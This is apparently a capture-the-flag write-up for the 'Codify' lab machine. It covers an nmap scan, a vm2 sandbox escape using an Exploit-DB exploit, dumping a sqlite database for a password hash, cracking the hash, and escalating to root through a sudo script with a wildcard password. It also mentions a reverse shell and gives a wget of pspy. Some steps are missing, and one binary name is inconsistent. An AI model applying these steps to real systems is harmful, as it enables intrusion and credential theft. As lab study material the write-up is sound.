





# Codify

---
## Nmap Scan

```
sudo nmap -sV -Pn -A <ip> --disable-arp-ping
```



Running the scan we find port 3000 running an http server 

---

## Gathering info from the site

upon first glance the website looks like a regular sandbox code editor , however if you investigate further you notice itls running the vulnerable **vm2** library



I download the exploit **51898.c** from the explot db and run it in the sandbox to validate its usefullnes

```
https://www.exploit-db.com/exploits/51898
```
i begin enumerating the machine to find a sqlite database on it i dump the the tables to find a hashed password and a username
```
use command
sqlite3 /var/www/contact/tickets.db .dump
```
---
## Cracking the hash



this will crack the hash giving you the password to the user previously found ssh into the machine to find the **user flag**

---

## Privilege Escalation

I run the following command to check for a misconfigured sudo privilege



upon examining the script attached we foud out that it recursively changes the permision to **774** and changes the owner to **root:sys-admin**

to exploit this we need start a reverse shell and download the binary files needed for exploitation

after starting the reverse shell

```
download necessary files

wget https://github.com/DominicBreuker/pspy/releases/download/v1.2.1/pspy64s

./pspy64d -i 1

```

back on the ssh we run the script again using __*__ as our password we'd get the following 



use the found password to login again as root and you'll find the root user flag


check it out on github [Codify]([https://github.com/username/repository/tree/main/directory](https://github.com/omar-alsawaf/HTB-WriteUps/tree/f6b17252ddf2cda3fb8d16e223075750f326dd49/Machines/Easy/codify))
